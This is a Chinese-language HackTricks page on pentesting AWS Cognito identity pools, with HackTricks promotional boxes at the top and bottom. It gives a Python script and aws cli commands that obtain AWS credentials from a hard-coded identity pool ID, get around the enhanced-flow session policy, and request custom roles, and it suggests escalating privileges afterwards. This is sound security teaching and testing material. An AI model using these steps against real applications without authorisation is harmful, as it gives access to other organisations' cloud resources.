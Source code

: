 # Cognito身份池

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

使用身份池，您的用户可以**获取临时的AWS凭证来访问AWS服务**，例如Amazon S3和DynamoDB。身份池支持匿名访客用户，以及以下身份提供者，您可以使用它们来对身份池的用户进行身份验证：

* Amazon Cognito用户池
* 通过Facebook、Google、Login with Amazon和Sign in with Apple进行社交登录
* OpenID Connect (OIDC)提供者
* SAML身份提供者
* 开发者认证身份

### Cognito Sync

要生成身份池会话，您首先需要**生成一个身份ID**。这个身份ID是**该用户会话的标识**。这些标识可以有多达20个数据集，每个数据集可以存储多达1MB的键值对。

这对于**保留用户信息**（始终使用相同的身份ID的用户）非常有用。

此外，服务**cognito-sync**是允许**管理和同步此信息**的服务（在数据集中发送信息、流和SNS消息等）。

## 访问IAM角色

### 未经身份验证

攻击者所需知道的唯一信息，以便作为未经身份验证的用户在Cognito应用程序中**获取AWS凭证**的是**身份池ID**，并且此**ID必须在Web/移动应用程序中硬编码**以供其使用。一个ID看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（无法通过暴力破解获得）。

{% hint style="success" %}
通过默认方式创建的**IAM Cognito未经身份验证角色**被称为`Cognito_<Identity Pool名称>Unauth_Role`
{% endhint %}

如果您发现一个硬编码的身份池ID并且允许未经身份验证的用户，您可以使用以下方法获取AWS凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下的 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的Cognito用户**无法获得任何权限，即使通过策略分配了权限**。请查看以下部分。
{% endhint %}

### 增强认证流程与基本认证流程

前一节遵循了**默认的增强认证流程**。该流程为生成的IAM角色会话设置了一个**限制性的**[**会话策略**](../../aws-basic-information/#session-policies)。该策略只允许会话使用[**此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色具有访问其他服务的权限）。

然而，如果**身份池启用了"基本（经典）流程"**，用户将能够使用该流程获取会话，该会话**不会有限制性的会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组 IAM 凭据后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，因此如果您可以在应用程序内**注册**，请尝试这样做并获取新的凭据。
{% endhint %}

对于**已认证用户访问身份池**，可能还可以使用**角色**。

为此，您可能需要访问**身份提供者**。如果是**Cognito 用户池**，也许您可以滥用默认行为并**自己创建新用户**。

{% hint style="success" %}
通过 IAM Cognito 认证角色默认称为 `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经登录到用于访问身份池的**Cognito 用户池**中（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令的响应中获取 identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在 IdToken 中，您可以找到用户因为用户池组而具有的角色
# 使用 --custom-role-arn 获取特定角色的凭据
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可能会根据用户登录的**身份提供者**或甚至仅根据**用户**（使用声明）配置不同的 IAM 角色。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问所有用户的 IAM 角色可能是**值得的**。
{% endhint %}

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您希望在 HackTricks 中看到您的**公司广告**，或者如果您想访问**PEASS 的最新版本或下载 PDF 格式的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧**。

</details>
